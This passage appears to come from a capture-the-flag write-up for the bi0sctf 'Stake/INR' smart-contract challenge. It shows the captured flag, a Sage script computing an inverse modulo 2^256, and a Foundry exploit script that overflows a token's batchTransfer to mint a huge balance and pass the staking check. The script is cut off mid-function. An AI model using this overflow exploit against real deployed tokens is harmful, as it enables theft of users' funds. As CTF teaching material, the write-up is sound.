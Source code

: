 ```sh

🏁: bi0sctf{tx:0xad89ff16fd1ebe3a0a7cf4ed282302c06626c1af33221ebe0d3a470aba4a660f}
```

## Full Exploit

`amount.py`:

```py
from sage.all import *

F = Zmod(2**256)
# length * amount = 1 % 2**256
# <=> if length = 3 then amount = inverse(3) mod 2**256
amount = F(3)**-1
length = 3
print(amount)
print(F(length) * F(amount) == 1)
```

`Exploit.sol`:

```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.20;

import {Script, console} from "forge-std/Script.sol";
import {Setup} from "src/Setup.sol";
import {Stake} from "src/Stake.sol";
import {INR} from "src/INR.sol";


contract Exploit is Script {
    address badDude;

    function run() public {
        Setup setup = Setup(0x5FbDB2315678afecb367f032d93F642f64180aa3); // local addr
        Stake stake = Stake(setup.stake());
        INR inr = INR(setup.inr());

        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        badDude = vm.addr(privateKey);

        vm.startBroadcast(privateKey);

        setup.claim();
        // see amount.py to see how to get this value
        uint256 amount = 77194726158210796949047323339125271902179989777093709359638389338608753093291;
        address[] memory receivers = new address[](3);
        receivers[0] = address(badDude); // let's receive 77194726158210796949047323339125271902179989777093709359638389338608753093291 tokens
        // sending to stake 2 * amount so INR.balanceOf(stake) = 2 * amount
        receivers[1] = address(address(stake));
        receivers[2] = address(address(stake));

        inr.batchTransfer(receivers, amount); // now INR.balanceOf(badDude) == amount and INR.balanceOf(stake) = 2 * amount
        inr.approve(address(stake), inr.balanceOf(badDude));
        inr.transfer(address(stake), amount - 100_000 ether); // to get the ratio OK in the solve condition (using overflow), the -100_000 ether is for the stakeAmount

        setup.stakeINR();
        setup.solve();
        require(setup.isSolved(), "nah plz ctf god, enlight me! what's wrong my lil' boi");
```